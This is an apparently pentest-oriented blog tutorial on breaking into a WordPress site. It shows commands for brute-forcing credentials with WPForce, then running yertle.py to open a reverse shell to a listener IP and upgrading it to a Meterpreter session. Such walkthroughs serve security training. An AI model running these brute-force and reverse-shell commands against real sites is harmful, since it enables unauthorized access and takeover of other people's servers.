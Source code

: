 ```yaml
---
title:  "Reverse Shell in Wordpress with WPForce"
date:   2021-08-08 18:20:00 +0000
categories: [techniques]
tags: [web exploitation, wordpress]
---
```



Reverse Shell in Wordpress with WPForce and Yertle

Imagine the scenario where you are presented with a WordPress site during a pentest and want to get in.   
Standard 'author?' requests don't give you the name of any users and you need to look else where.   
One nice alternative to using WPScan to brute force the username and password field is WPForce.   
Taken from the WPForce website, link: [WPFORCE](https://www.n00py.io/category/pentesting 'WP-FORCE')


"
Unlike WPScan, which performs brute force login attempts against the login page of WordPress, WPForce uses authenticated API calls to test the validity of credentials.  While most security plugins are wise to this method, it does provide slightly more stealth.
"


So first, clone yourself a copy of WPForce

`git clone https://github.com/n00py/WPForce.git`

Once downloaded, parse the user, password and website deatils:

`python wpforce.py -i usr.txt -w pass.txt -u "http://www.[website].com"`

Once the script completes hopefully the Username and Password is dicovered. However if not choose different word-lists that are more appropriate to your scenario, maybe you get lucky.


![img-description](/images/WPForce-1.png)
_executing the script_

![img-description](/images/WPForce-2.png)
_Example of a PAssword Found sucessfully_

Having figured out the username and password to a Wordpress CMS site and now want to gain a shell.   

Normally you would either have to circumvent the upload restrictions on the Wordpress page, which can be time consuming with a lot of trial and error or disguise an upload file within a custom built plugin. Again something potentially time consuming to achieve, this is where WPForce comes in.    

WPForce is a useful tool that will create an interactive shell or a reverse TCP connection to a meterpreter listener. It also has lots of other interesting features like hooking to the BEEF Framework.    

To start with, make sure you have the python 'Requests' HTTP libraries installed, you can install them using PIP.   

`pip install requests`

Now we are set lets start..   

`Arguments - -t URL, -u username, -p password, -v verbose, -li localhost, -lp localport, -r reverse or -i interactive, -a User Agent.`

{% include codeHeader.html %}
`python yertle.py -t http://192.168.0.122/wordpress -u admin -p admin -v -li 192.168.0.100 -lp 80 -r`

![img-description](/images/Yertle-1.png)
_Executing The Script_

From here we have an interactive shell with limited functionality.   

![img-description](/images/Yertle-2.png)
_Interactive Shell_

A simple directory listing from within the web server from an interactive shell.   

![img-description](/images/Yertle-3.png)
_Interactive Shell_

Now setup a Meterpreter listener to wait for our connection.   

![img-description](/images/Yertle-5.png)
_Interactive Shell_

Now we simply type 'meterpreter' and add the IP and Port details.   

![img-description](/images/Yertle-6.png)
_Interactive Shell_

We receive the meterpreter session in metasploit.   

![img-description](/images/Yertle-7.png)
_Interactive Shell_

Now we can continue our enumeration from Metasploit.   

